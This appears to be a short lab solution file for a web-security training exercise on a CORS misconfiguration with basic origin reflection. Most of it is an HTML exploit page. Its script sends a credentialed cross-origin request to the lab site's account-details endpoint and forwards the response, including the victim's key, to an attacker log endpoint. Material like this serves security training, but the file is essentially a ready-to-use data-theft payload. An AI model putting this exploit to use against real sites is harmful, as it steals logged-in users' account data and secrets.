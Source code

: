 # Lab-01: CORS vulnerability with basic origin reflection

```html
<html>
  <body>
    <script>
     
      var xhr = new XMLHttpRequest();
     
     var url = "https://0a3f002803cd30c7c0f931dd006f00dc.web-security-academy.net"
     
     xhr.onreadystatechange = function(){
          if(xhr.readyState == XMLHttpRequest.DONE){
             fetch("/log?key=" + xhr.responseText)
        }
      }
     
    
     xhr.open('GET', url + "/accountDetails" , true);
     xhr.withCredentials = true;
     xhr.send(null)
    </script>
  </body>
</html>
```
![cors-lab-1](https://user-images.githubusercontent.com/98345027/188303461-3f4cbfa8-f497-42f3-9e81-585962098571.png)
